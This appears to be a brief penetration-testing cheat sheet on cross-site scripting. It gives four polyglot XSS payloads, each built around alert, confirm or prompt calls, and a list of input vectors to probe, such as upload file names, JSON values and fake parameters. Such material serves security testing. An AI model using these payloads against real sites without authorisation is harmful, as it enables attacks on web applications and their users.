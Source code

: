 <!-- TITLE: WAPT5.1 -  Cross Site Scripting (XSS) -->
<!-- SUBTITLE: A quick summary of WAPT5.1 - Cross Site Scripting (XSS) -->

# WAPT5.1 - Cross Site Scripting (XSS)

Does the page reflect any user inputs back into the page or source code after submission?

If so it could be subject to XSS.

# XSS Polyglot Payloads

## Payload #1

```text
';alert(String.fromCharCode(88,83,83))//';alert(String. fromCharCode(88,83,83))//";alert(String.fromCharCode (88,83,83))//";alert(String.fromCharCode(88,83,83))//-- ></SCRIPT>">'><SCRIPT>alert(String.fromCharCode(88,83,83)) </SCRIPT>
```

## Payload #2

```text
">><marquee><img src=x onerror=confirm(1)></marquee>" ></plaintext\></|\><plaintext/onmouseover=prompt(1) ><script>prompt(1)</script>@gmail.com<isindex formaction=javascript:alert(/XSS/) type=submit>'-->" ></script><script>alert(1)</script>"><img/id="confirm&lpar; 1)"/alt="/"src="/"onerror=eval(id&%23x29;>'"><img src="http: //i.imgur.com/P8mL8.jpg">
```

## Payload #3

```text
" onclick=alert(1)//<button ‘ onclick=alert(1)//> */ alert(1)//
```

## Payload #4

```text
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */oNcliCk=alert() )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert()//>\x3e
```

# Input Vectors

* Customizable Themes & Profiles via CSS
* Event or meeting names
* URI based
* Imported from a 3rd party \(think Facebook integration\)
* JSON POST Values \(check returning content type\)
* File Upload names
* Uploaded files \(swf, HTML, ++\)
* Custom Error pages
* Fake params - ?realparam=1&foo=bar’+alert\(/XSS/\)+’
* Login and Forgot password forms

# Resources

* x
